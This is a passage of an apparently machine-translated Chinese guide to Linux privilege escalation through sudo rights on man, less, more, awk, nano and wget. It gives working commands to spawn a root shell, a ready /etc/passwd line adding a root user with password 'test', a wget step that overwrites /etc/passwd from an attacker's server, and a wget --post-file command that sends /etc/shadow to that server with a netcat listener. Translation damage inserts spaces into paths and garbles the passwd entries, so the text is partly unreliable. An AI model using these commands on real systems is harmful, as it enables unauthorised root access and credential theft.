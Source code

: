 `sudo man man`

之后按**！**按下并按Enter

### **使用less**/more**命令**

`sudo less / etc / hosts`

`sudo more / etc / hosts`

之后按**！**按下并按Enter

### **使用**awk**命令**

`sudo awk’BEGIN {system（“ / bin / sh”）}’`

### **使用**nano**命令**

`nano`是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改passwd文件并将用户添加为root特权。在`/ etc /passwd`中添加此行，以将用户添加为root特权。

```
touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin

sudo nano / etc / passwd
```

现在切换用户密码是：test

su touhid

### **使用**wget**命令**

这种非常酷的方式要求Web服务器下载文件。这样我从没在任何地方见过。让我们解释一下。

- 首先将Target的`/ etc / passwd`文件复制到攻击者计算机。
- 修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
- 仅附加此行=>   **touhid\****：**$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0**：**b**：**root / root**：**
- 将passwd文件托管到使用任何Web服务器的主机。

**在受害者方面。**

`sudo wget http://192.168.56.1:8080/passwd -O / etc / passwd`

现在切换用户密码是：test

`su touhid`

**注意：如果您要从服务器上转储文件，例如**root**的**ssh**密钥，**shadow**文件等。**

`sudo wget —post-file = / etc / shadow 192.168.56.1:8080`

攻击者的设置侦听器：nc –lvp 8080

### **使用**apache**命令**

但是，我们无法获得Shell和Cant编辑系统文件。
